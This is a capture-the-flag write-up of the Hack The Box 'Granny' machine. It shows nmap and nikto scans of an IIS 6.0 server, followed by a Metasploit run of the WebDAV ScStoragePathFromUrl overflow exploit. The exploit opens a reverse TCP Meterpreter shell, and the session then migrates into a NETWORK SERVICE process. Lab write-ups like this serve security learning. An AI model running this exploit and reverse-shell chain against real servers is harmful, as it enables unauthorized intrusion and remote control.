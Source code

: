 ```yaml
---
layout: post
title: Grandpa/Granny (HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.14/15 

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.15</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 18:56 EST
<br>Nmap scan report for 10.10.10.15
<br>Host is up (0.17s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 6.0</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
<br>|_http-server-header: Microsoft-IIS/6.0
<br>|_http-title: Under Construction
<br>| <font color="ffff00">http-webdav-scan</font>: 
<br>|   Server Type: Microsoft-IIS/6.0
<br>|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
<br>|   <font color="ffff00">WebDAV type</font>: Unkown
<br>|   Server Date: Thu, 22 Feb 2018 23:53:57 GMT
<br>|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose
<br>Running (JUST GUESSING): Microsoft Windows 2003|XP|2008 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_xp::sp2 <br>cpe:/o:microsoft:windows_server_2008::sp2
<br>Aggressive OS guesses: Microsoft Windows Server 2003 SP1 - SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP <br>SP2 or Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 R2 SP2 (88%), Microsoft Windows Server 2003 SP1 or R2 (88%), <br>Microsoft Windows 2003 SP2 (86%), Microsoft Windows Server 2003 SP1 or SP2 (86%), Microsoft Windows XP SP2 (86%), Microsoft Windows <br>2003 R2 (86%), Microsoft Windows Server 2003 (86%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   170.45 ms 10.10.14.1
<br>2   170.49 ms 10.10.10.15</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 38.06 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Only port open is open and the web server is IIS httpd 6.0 and webdav is also available in which put method is allowed, and the webpage is also not available.

**Nikto**
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nikto -h 10.10.10.15
<br>- Nikto v2.1.6
<br>---------------------------------------------------------------------------
<br>+ Target IP:          10.10.10.15
<br>+ Target Hostname:    10.10.10.15
<br>+ Target Port:        80
<br>+ Start Time:         2018-02-22 19:01:01 (GMT-5)
<br>---------------------------------------------------------------------------
<br>+ Server: Microsoft-IIS/6.0
<br>+ Retrieved microsoftofficewebserver header: 5.0_Pub
<br>+ Retrieved x-powered-by header: ASP.NET
<br>+ The anti-clickjacking X-Frame-Options header is not present.
<br>+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
<br>+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
<br>+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
<br>+ Retrieved x-aspnet-version header: 1.1.4322
<br>+ No CGI Directories found (use '-C all' to force check all possible dirs)
<br>+ OSVDB-397: HTTP method <font color="ffff00">'PUT'</font> allows clients to save files on the web server.
<br>+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
<br>+ Retrieved dasl header: <font color="ffff00"> DAV:sql </font>
<br>+ Retrieved dav header: 1, 2
<br>+ Retrieved ms-author-via header: MS-FP/4.0,DAV
<br>+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
<br>+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ WebDAV enabled (UNLOCK PROPPATCH COPY LOCK PROPFIND MKCOL SEARCH listed as allowed)
<br>+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
<br>+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
<br>+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
<br>+ OSVDB-3233: /_vti_bin/shtml.exe/_vti_rpc: FrontPage may be installed.
<br>+ OSVDB-3233: /_private/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
<br>+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
<br>+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
<br>+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST</p>
</div>
</font>

<br>If you google about IIS 6.0 webdav you can find a BOF [exploit](https://www.exploit-db.com/exploits/41738/), and there is a msf module also available for this similar exploit which we are going to use.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > show options </p>

<p>Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;MAXPATHLENGTH&nbsp;&nbsp;60&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;End of physical path brute force
<br>&nbsp;&nbsp;&nbsp;MINPATHLENGTH&nbsp;&nbsp;3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Start of physical path brute force
<br>&nbsp;&nbsp;&nbsp;Proxies&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A proxy chain of format type:host:port[,type:host:port][...]
<br>&nbsp;&nbsp;&nbsp;RHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target address
<br>&nbsp;&nbsp;&nbsp;RPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;80&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target port (TCP)
<br>&nbsp;&nbsp;&nbsp;SSL&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;false&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Negotiate SSL/TLS for outgoing connections
<br>&nbsp;&nbsp;&nbsp;TARGETURI&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path of IIS 6 web application
<br>&nbsp;&nbsp;&nbsp;VHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;HTTP server virtual host</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Microsoft Windows Server 2003 R2 SP2 x86</p>


<p>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > set RHOST 10.10.10.15
<br>RHOST => 10.10.10.15
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4444 -> 10.10.10.15:1031) at 2018-02-22 19:23:56 -0500</p>

<p>meterpreter > getuid
<br><font color="red">[-]</font> stdapi_sys_config_getuid: Operation failed: Access is denied.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;GRANNY
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;Windows .NET Server (Build 3790, Service Pack 2).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86
<br>System Language&nbsp;:&nbsp;en_US
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;HTB
<br>Logged On Users&nbsp;:&nbsp;3
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86/windows
<br>meterpreter > </p>
</div>
</font>

<br>We got the session but our sehll has very low privilege not even a user privilege, So first we need to migrate to a process which have some decent privilege and then try to find an exploit using local exploit suggester to escalate our privilege to gain system or administrator level access.

**Privilege Escalation**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

<p>&nbsp;PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
<br>&nbsp;---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                               
<br>&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                         
<br>&nbsp;260&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                                       
<br>&nbsp;316&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;csrss.exe                                                      
<br>&nbsp;340&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;winlogon.exe                                                   
<br>&nbsp;388&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;services.exe                                                   
<br>&nbsp;400&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;lsass.exe                                                      
<br>&nbsp;568&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;668&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;704&nbsp;&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;728&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;756&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;792&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;928&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;spoolsv.exe                                                    
<br>&nbsp;952&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;msdtc.exe                                                      
<br>&nbsp;1068&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;cisvc.exe                                                      
<br>&nbsp;1112&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1160&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;inetinfo.exe                                                   
<br>&nbsp;1208&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1440&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1572&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1668&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;alg.exe                                                        
<br>&nbsp;1772&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;wmiprvse.exe                                                   
<br>&nbsp;1932&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;davcdata.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;C:\WINDOWS\system32\inetsrv\davcdata.exe
<br>&nbsp;2092&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2124&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2204&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;logon.scr                                                      
<br>&nbsp;3080&nbsp;&nbsp;1440&nbsp;&nbsp;w3wp.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;c:\windows\system32\inetsrv\w3wp.exe
<br>&nbsp;3172&nbsp;&nbsp;3080&nbsp;&nbsp;rundll32.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\WINDOWS\system32\rundll32.exe</p>

<p>meterpreter > migrate 1932
<br><font color="RoyalBlue">[*]</font> Migrating from 3172 to 1932...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > getuid 
<br>Server username: NT AUTHORITY\NETWORK SERVICE
<br>meterpreter > </p>
</div>
</font>

<br>And we successfully migrated to NETWORK SERVICE and now we can run the local exploit suggester.




